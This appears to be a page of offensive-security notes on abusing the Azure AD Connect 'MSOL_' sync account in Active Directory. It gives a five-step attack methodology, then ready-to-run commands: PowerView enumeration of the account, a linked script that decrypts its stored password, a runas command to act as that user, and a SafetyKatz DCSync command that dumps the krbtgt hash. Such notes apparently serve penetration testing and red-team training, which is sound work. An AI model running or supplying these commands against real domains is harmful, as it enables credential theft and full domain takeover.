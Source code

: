 # Methodology
>1. Enumerate the accounts with the `MSOL_` attribute.
>2. Get administrative privileges on the computer where it's setup.
>3. Read the password.
>4. Run commands as `MSOL_` user.
>5. DCSync (Optional).

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Get the MSOL user and the computer where it's setup:**
```powershell
Get-DomainUser -Identity "MSOL_*" -Domain contoso.local
```

**Retrieve the password:**
https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545#file-azuread_decrypt_msol-ps1
```powershell
.\azuread_decrypt_msol.ps1
```

**Run commands:**
```powershell
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dcsync:**
```cmd
SafetyKatz.exe '"lsadump::dcsync /user:contoso\krbtgt /domain:contoso.local"'
```